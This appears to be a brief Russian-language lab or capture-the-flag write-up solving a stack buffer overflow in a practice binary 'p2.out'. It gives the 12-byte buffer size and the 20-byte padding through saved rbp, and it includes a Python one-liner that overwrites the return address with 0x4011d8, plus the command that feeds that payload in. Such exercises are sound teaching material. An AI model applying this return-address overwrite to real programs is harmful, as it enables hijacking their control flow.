


адрес нужной ветки - 0x4011d8



0xc - размер буфера (12)

заполняем буфер + rbp (20 байт), чтобы изменить адрес возврата на 0x4011d8


```python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\xd8\x11\x40\x00\x00\x00\x00\x00")' > in```

```cat in | ./p2.out```